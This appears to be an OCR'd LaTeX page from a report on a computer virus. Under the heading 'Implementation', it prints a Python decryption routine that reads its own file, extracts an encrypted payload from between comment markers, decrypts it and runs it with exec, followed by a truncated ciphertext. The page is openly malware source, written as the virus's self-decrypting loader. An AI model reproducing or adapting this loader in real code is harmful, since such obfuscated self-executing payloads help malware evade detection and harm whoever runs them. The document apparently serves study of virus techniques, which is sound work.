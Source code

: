 \documentclass[a4paper,11pt]{article}
\begin{document}
\section{Implementation}

The code shown below corresponds to the virus decryption routine, whereas the second portion of code corresponds to the encrypted virus program body; note that the encrypted virus program body is already encrypted in the virus decryption routine, at line 23.

\begin{verbatim}
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty string
cipher_payload = ''

# Search for the encrypted main body of the virus
# and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#NpvtmqJT43JyqT/ubKnOIohtnxVkmEl...
# End payload
\end{verbatim}
\end{document}
